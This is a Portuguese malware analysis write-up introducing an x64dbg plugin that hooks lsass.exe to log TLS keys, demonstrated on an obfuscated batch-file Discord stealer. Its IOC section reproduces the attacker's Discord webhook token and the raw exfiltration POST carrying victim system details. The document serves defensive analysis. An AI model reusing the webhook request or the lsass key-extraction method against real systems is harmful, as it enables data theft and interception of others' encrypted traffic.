









# Malware Analysis Writeup | Bat Stealer(Chine Encode) and introduzing WinHandKill X64DBG Plugin
Author: João Vitor (@Keowu) - Malware Security Researcher

# Sample identification hash

Este malware não possuí uma familia, porem ele se trata de um stealer, projetado para roubar credênciais do Discord oferecendo algo em troca, o objetivo deste artigo não é apresentar a analise do malware em questão e sim apresentar meu novo projeto que permite que você automatize e facilite sua vida em um milhão de vezes.

# Table of Contents
1. [Overview](#overview)
2. [Explaning the context](#explaning-the-context)
3. [Installing the plugin](#installing-the-plugin)
4. [Using WinHandKill on a real malware](#using-winhandkill-on-a-real-malware)
5. [Analyzing manually and comparing with the WinHandKill](#analyzing-manually-and-comparing-with-the-winhandkill)
6. [IOCS](#iocs)


## Overview

O malware em questão foi retirado de vídeos do youtube, oferecendo benefícios em troca. seja um software, uma ferramenta de melhora de desempenho do computador e sistema, e ou um gerador de discord nitro(Ok, eu me passei por um alvo disso pelo bem da ciência computacional).


## Explaning the context

Malwares stealer podem ser combatidos encontrando os seus arquivos de configuração, coisa que leva um tempo e pode ser repetitivo em alguns casos, convenhamos que a grande maioria atualmente são clones de projetos do github alterando configurações. porem existem alguns com características únicas, ou fortemente ofuscados, ou virtualizados. a grande questão é que você pode facilmente encontrar algum IOC de rede e bloquear, porem em alguns casos só isso pode não ser suficiente, e precisamos entender quais informações estão sendo trocadas entre cliente e servidor. quando o malware não utiliza um certificado em sua comunicação o processo pode ser facilmente resolvido utilizando wireshark por exemplo. porem quando adiciona-se um TLS essa tarefa pode ser árdua. até então. porque sim é possível simplificar e muito nossa vida quando vamos procurar a chave TLS utilizada na comunicação.

No Windows as chaves TLS utilizadas por todas as comunicações de rede efetuadas no sistema são operadas pelo processo "LSASS.EXE". processo esse a partir das versões mais novas do Windows protegido a partir da kernel land.

As api's utilizadas pelo processo de sistema "lsass.exe", que durante este artigo vamos tratar de "Local Security Authority Subsystem Service", são todas importadas de outra DLL a "ncrypt.dll" responsável por gerenciar funções de criptografia do sistema operacional. os exports utilizados para os procedimentos de TLS handshake são:

|       **Export name**      |              **Version**             |
|:--------------------------:|:------------------------------------:|
| SslHashHandshake           | TLS1.3 e TLS1.2 with RFC 7627        |
| SslGenerateMasterKey       | TLS1.2 with RFC 7627                 |
| SslImportMasterKey         | TLS1.2 client e server from RFC 7627 |
| SslGenerateSessionKeys     | TLS1.2 client e server from RFC 7627 |
| SslExpandTrafficKeys       | TLS 1.3                              |
| SslExpandExporterMasterKey | TLS 1.3                              |

Cada um desses exports são responsáveis por gerenciar todas as chaves de TLS utilizadas pelo sistema operacional e seus softwares ou malwares que é nosso escopo de ataque.

Porem graças a proteção de kernel land em cima do processo "Local Security Authority Subsystem Service" ficamos impossibilitados de injetar uma DLL efetuando hooks e obtendo as chaves para nosso próprio benefício. ou seja não podemos injetar código em um processo cujo escopo é protegio pelo kernel do sistema operacional. porem isso não impede que utilizemos outro artifício para que possamos pelo menos controlar a execução e recuperar os valores das chaves durante as chamadas para as DLL's, para isso podemos utilizar a permissão "SeDebugPrivilege". mas é claro que nada na vida são flores. existem apenas duas maneiras de obtermos acesso a esta permissão, a primeira o próprio título já entrega o "x64dbg" com permissões de administrador pode utilizar a permissão "SeDebugPrivilege" pois ele necessita desse privilégio(provavelmente algo [similar ao exemplo que a própria microsoft indica em C++](https://learn.microsoft.com/en-us/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--)), e a outra forma é via powershell ao executar com permissão de administrador. cabe-se destacar que o privilégio em sí não pode ser obtido através do prompt comum da microsoft.

A minha escolha pelo x64dbg é feita por ser um projeto estável, com uma comunidade receptiva, ser fortemente utilizado, e com uma SDK muito completa e que permite que o debugger seja manipulado como desejado, se você puder apoiar o projeto isso com certeza incentivaria um projeto tão incrível como este.

O plugin/projeto WinHandKill foi desenvolvido para ser executado apenas em ambientes x64, eu desconsiderei a possibilidade de utilizar x32 pois a versão x64 já é o suficiente para nosso objetivo aqui. durante o desenvolvimento deste plugin eu utilizei a versão "Windows 10 1903 (x64)" porque é a versão que eu costumo utilizar no meu dia a dia, por uma questão de gosto pessoal. provavelmente você necessite alterar alguns detalhes do plugin caso optar por rodar em outra versão do sistema(só se lembre de desabilitar a proteção contra exploits de memória caso você utilize o Windows 11), no futuro eu penso em permitir multiplas versões do sistema operacional, você pode portar facilmente para as versões mais recentes simplesmente alterando os offsets da dll "ncrypt.dll" use o IDA ao seu favor. caso você deseje obter a [minha versão do Windows 10 você pode obter aqui](https://archive.org/details/windows-10-1903-x-64). este link é compartilhado pela própria Microsoft então não espere encontrar um sistema crackeado fornecido por mim a sua disposição(esse mensagem com certeza é direcionado ao time comercial da microsoft que adora cobrar por licenças).

Você provavelmente já deve saber como funciona o processo de instalação, mas fique aqui e continue a sua leitura, logo vem a parte que te interessa ^ ⁼ ^.

## Installing the plugin

Vamos conhecer o plugin em sí:


Para instalar, vá até o diretório principal do seu "x64dbg.exe" e crie uma pasta chamada "plugins", veja o exemplo:



Copie o plugin baixado para dentro dela. e em seguida abra o seu x64dbg(como administrador).


Caso tudo ocorra bem você devera ver o menu acima na aba plugins do seu x64dbg.

Agora você deverá anexar o processo do "Local Security Authority Subsystem Service":


Com o processo anexado, dirija-se até a tela de "log". lá você devera digitar no console o comando "WinHandKill" para que o plugin inicie o trabalho:


Uma vez iníciado, preste muita atenção, não encerre o processo pelo x64dbg(ele possuí acesso a permissão SeDebugPrivilege) isso vai fazer o processo encerrar com certeza e a certeza é ainda maior ao considerar que o seu sistema por completo vai junto com ele:


[Não entendeu a piada ? veja ela aqui](https://www.youtube.com/watch?v=IW7Rqwwth84)

O meu ponto aqui é que como estamos manipulando um processo crítico, deixe toda esta tarefa com o plugin, e caso você encontre uma emergência pressione o combo "CTRL+1" para que ele seja parado instantaneamente e deixe tudo pronto para que você apenas desanexe o debuger do processo. é importante que isso tenha ficado claro, hooks em processos do sistema muitas vezes podem não acabar muito bem(mais são muito legais). então eu peço que você tenha o máximo de atenção e siga os passos indícados pelo plugin na risca e claro além disso veja se ficou algum breakpoint se o EIP esta parado, antes de desanexar o processo.

Após iníciado e você confirmar cada dialogo te explicando os cuidados que você deve tomar. o plugin vai iníciar o trabalho dele e começar a logar todas as chaves TLS possíveis de todas as comunicações possíveis do seu sistema operacional:



Estas chaves são armazenadas com todo o cuidado possível lá na raiz do seu disco "C:" com o nome de "lsassExtractedKeys.txt", vamos conferir seu conteúdo:



Todas essas chaves foram utilizadas em comunicações web só de abrir o navegador da microsoft. e elas devem ser importadas no seu wireshark ou outra ferramenta de captura de tráfego de rede. e não é porque fui eu que desenvolvi. mais essa ferramente vai te ajudar muito a melhorar sua análise nele.

Após apresentar todo o conceito por trás do plugin a ideia dele, vamos voltar ao malware aleatório que eu baixei do youtube e vamos aplicar o poder do plugin neles para recuperar os tokens dos webhooks do discord e descobrir quais dados eles enviam do nosso sistema. fique tranquilo eu também irei compartilhar a analise do malware de maneira manual também, porque é disso nós amamos, analisar malware e software e entender como tudo a nossa volta funciona \o/.

## Using WinHandKill on a real malware

Vamos iniciar nossa analise a partir do arquivo ".bat", ele é um stealer, vai roubar os dados e credênciais e enviar tudo para um servidor do discord. esse arquivo é interessante porque ele esta ofuscado(usando a famosa ofuscação que troca os caractéres para chineses, e além de outra traquinagens de strings):


Como já sabemos o arquivo esta utilizando uma técnica de "ofuscação", esta qual transforma todos os seus caracterês em caracteres unicodes inválidos(apelidada de ofuscação chinesa).


É relativamente simples resolver este tipo de ofuscação(se você teve uma boa base de arquivos códificados), porem o ponto aqui é demonstrar como o WinHandKill pode te ajudar nesta tarefa, e depois é claro explicar como resolver.

Para obtermos o IOC de rede e descobrir quais dados o malware esta enviando para o webhook do discord vamos utilizar nossa ferramenta. Primeiramente é necessário que você abra o seu Wireshark para logar a rede. além de abrir o x64dbg(como administrador) e anexar o processo "lsass.exe":


Após inicia o wireshark e o x64dbg e iniciar o plugin com o comando "WinHandKill", é recomendado que você inicie o plugin antes de efetuar a captura de rede. após iniciar a captura é só rodar o malware:



Logo após a execução e a captura obteremos toda os IOC's de rede do computador nesse período, porem obviamente isso não nos agrega muito, pois o malware utilizou TLS durante a sua comunicação.



Vamos então importar as chaves TLS interceptadas pelo WinHandKill para dentro do Wireshark para que possamos entender e encontrar o IOC que o malware utilizou:



Para isso vá até o menu "edit" depos em "Preferences...". e depois navegue até "Protocols" e por fim procure "TLS":



Após encontrar o aba de configurações do TLS, procure o arquivo com as chaves e defina "(Pre)-Master-Secret log filename" apontando para o arquivo das chaves. e depois só clique em OK para que o Wireshark utilize as chaves na nossa captura atual.



Como podemos ver o tráfego SSL agora esta visível para nós, veja o primeiro IOC, uma consulta para um site utilizando TLS com protocolo HTTPs, seguido de um webhook do discord, e ainda podemos descriptografar o tráfego de rede TLS, pois temos as chaves utilizadas na comunicação. veja um exemplo aplicado ao discord:


Como podemos ver recuperamos, todos os IOC's e endereço do Webhook, e ainda podemos descriptografar todas as informações que o malware estava enviando ao servidor discord do atacante.

## Analyzing manually and comparing with the WinHandKill

Agora vamos reverter manualmente o malware do bat, vamos apenas aprender algo novo aqui, como o desenvolvedor conseguiu ofuscar e o porque disso, além é claro de descobrir o seu webhook manualmente.

Para esta tarefa abra o arquivo bat "ofuscado" em um editor hexadecimal:



Como você pode ver alguns dados são legiveis sim. o motivo de os caractéres estarem sendo visto como chineses é por conta dos bytes ```FF FE``` esta marcação de ordem dos bytes esta forçando que o editor de texto parseie como ```UTF-16 LE``` e para que você possa ler o arquivo baste remover os bytes que indicam ao editor de texto sobre o ``` UTF-16 LE ``` além de ser necessário que você remova os bytes. desta forma:


E agora em fim podemos abrir o arquivo em um editor de texto sem "ofuscação/códificação de arquivo errada":


Agora entra as características de uma analise de um arquivo bath convencional, reescrevendo e removendo os caracteres escape, eu editei de maneira que só execute um comando ``` echo ``` no webhook do Discord do malware:


O resultado da execução da edição do script que eu efetuei:


Perceba como o plugin WinHandKill pode ser muito útil para você nas suas analises, uma simples execução já nos entregou todas as chaves TLS utilizadas na comunicação com o servidor do discord no momento do handshake efetuado. permitindo que descriptografamos e obtemos muito mais rápido do que ter que analisar um arquivo bat ofuscado. obviamente uma analise de um malware também é muito legal, então tenha como uma opção no seu arsenal, modifique, melhore-a, sinta-se a vontade em testar meu plugin, e compartilhar a DLL ncrypt.dll e a sua versão do Windows para que possamos melhorar e expandir ainda mais a utilização do plugin. ^ = ^

## IOCS

hxxps[:]//discord[.]com/api/webhooks/1100125648112058529/wkJae63wSH1f1l7iG05gQrrJ9a_qHK7yJjtQNcmUPDqwSUWtQSkIxWivWwaDMx_12i_c

Send to:

```
POST /api/webhooks/1100125648112058529/wkJae63wSH1f1l7iG05gQrrJ9a_qHK7yJjtQNcmUPDqwSUWtQSkIxWivWwaDMx_12i_c HTTP/1.1
Host: discord.com
User-Agent: curl/7.55.1
Accept: */*
Content-type: application/json
Content-Length: 143
 
{"content": "```User = %r:~13,1%r:~8,1  Ip =  time =  16:29:14.23 date = Wed 04/26/2023 os = r:~8,1% Computername = r:~12,1r:~13,1%r:~4,1 ```"}
```

hxxps[:]//myexternalip[.]com/raw